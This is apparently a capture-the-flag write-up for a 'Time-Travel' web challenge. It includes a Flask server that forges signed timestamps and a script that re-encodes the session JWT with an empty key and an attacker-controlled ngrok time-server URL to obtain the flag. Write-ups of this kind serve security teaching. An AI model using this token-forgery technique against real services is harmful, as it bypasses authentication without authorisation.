 ## Time-Travel web challenge writeup 

When you visit the page , you are presented with a misleading button which obviously doesnt give you the flag

![](images/1.png)

Once you inspect the page more , you will find a session cookie being generated,

![](images/2.png)

If you try decoding it you will get to know that it is a jwt token and once you try to get the payload of the token 

![](images/3.png)

We get to see the that a time server is being used and there are two time stamps generated

if we look over the source code we see that there is a post request being send to the validate endpoint 

Now we check app.py to see the validate endpoint to understand what is going on 

You can understand that it is fetching time from another external time server which is signing the timestamp which it is passing. It also has a /pubkey endpoint which gives us the ideae on how our time server should be  

This should give us the iea of the exploit which should be 

- Create your own time server which could generate your own public key, signatures, and  timestamps.  
- Modify the payload of the token  with the URL of this false time server, a new timestamp, and its corresponding signature. The backend  servers’ verfication algorithm would then verify it.
- The time server must return the exp time which must be a future time so that the validation works

```

from flask import Flask, jsonify, Response
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import time

app = Flask(__name__)

key = ECC.generate(curve="p256")
pubkey = key.public_key().export_key(format="PEM")


@app.route("/pubkey", methods=["GET"])
def get_pubkey():
  
    response = Response(pubkey, mimetype="text/plain")
    response.headers["Access-Control-Allow-Origin"] = "*"
    return response


@app.route("/timestamp", methods=["GET"])
def get_timestamp():
  
    current_time = str(int(time.time()))
    exp_time = str(int(time.time()) + 100)  

    h = SHA256.new(current_time.encode("utf-8"))
    signer = DSS.new(key, "fips-186-3")
    signature = signer.sign(h)

    response_data = {
        "timestamp": current_time,
        "signature": signature.hex(),
        "exp": exp_time,
    }

    response = jsonify(response_data)
    response.headers["Access-Control-Allow-Origin"] = "*"
    return response


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5004)

```

Now have a script to generate the new jwt token with your new time server 

```

import requests
import jwt
import json
import time

def exploit_challenge(challenge_server, ngrok_url):
  
    
    try:
        challenge_response = requests.get(f"{challenge_server}/challenge")
        original_token = challenge_response.json()["token"]
    except Exception as e:
        print(f"Failed to get challenge token: {str(e)}")
        return
    
    try:
        payload = jwt.decode(original_token, options={"verify_signature": False})
        print("Original payload:")
        print(json.dumps(payload, indent=2))
        
        payload["timeserver"] = ngrok_url
        new_token = jwt.encode(payload, "", algorithm="HS256")
    except Exception as e:
        print(f"Failed to modify token: {str(e)}")
        return
    
    try:
        validation_response = requests.post(
            f"{challenge_server}/validate",
            json={"token": new_token},
            headers={"Content-Type": "application/json"}
        )
        
        if validation_response.status_code == 200:
            print(json.dumps(validation_response.json(), indent=2))
        else:
            print(validation_response.text)
            
    except Exception as e:
        print(f"[-] Error during validation: {str(e)}")
        return

if __name__ == "__main__":
    CHALLENGE_SERVER = "https://timetravel.ctf.prgy.in/"  
    NGROK_URL = "https://7260-14-139-162-2.ngrok-free.app"  
    
    exploit_challenge(CHALLENGE_SERVER, NGROK_URL)

```
Running this script gives us the flag 
```bash

{
  "flag": "p_ctf{man19ula71n8_t1me_is_n05_4lw4ys_4_g00d_1dea}",
  "message": "Token is valid"
}
```bash
